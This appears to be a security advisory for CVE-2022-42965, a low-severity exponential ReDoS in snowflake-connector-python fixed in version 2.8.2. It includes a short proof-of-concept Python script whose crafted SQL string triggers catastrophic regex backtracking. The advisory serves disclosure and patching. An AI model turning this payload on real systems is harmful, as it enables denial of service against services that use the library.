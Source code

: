```yaml
---
description: CVE-2022-42965 Low severity. Exponential ReDoS in snowflake-connector-python leads to denial of service
title: snowflake-connector-python ReDoS
date_published: "2022-10-15"
last_updated: "2022-11-20"
xray_id: XRAY-257185
vul_id: CVE-2022-42965
cvss: 3.7
severity: low
discovered_by: Denys Vozniuk
type: vulnerability

---
```


## Summary

Exponential ReDoS in snowflake-connector-python leads to denial of service

## Component

[snowflake-connector-python](https://pypi.org/project/snowflake-connector-python)

## Affected versions

snowflake-connector-python (,2.8.1], Fixed in 2.8.2

## Description

An exponential ReDoS (Regular Expression Denial of Service) can be triggered in the snowflake-connector-python PyPI package, when an attacker is able to supply arbitrary input to the undocumented `get_file_transfer_type` method.

## PoC

```python
import time
from snowflake.connector.cursor import SnowflakeCursor

for i in range(100):
    start_time = time.time()
    sql = '/**/\n' + '\t/*/get\t*/\t/**/\n'*i + '\t*/get\n'
    SnowflakeCursor.get_file_transfer_type(sql)
    print("--- %s seconds ---" % (time.time() - start_time))
```



## Vulnerability Mitigations

No mitigations are supplied for this issue

## References

[NVD](https://nvd.nist.gov/vuln/detail/CVE-2022-42965)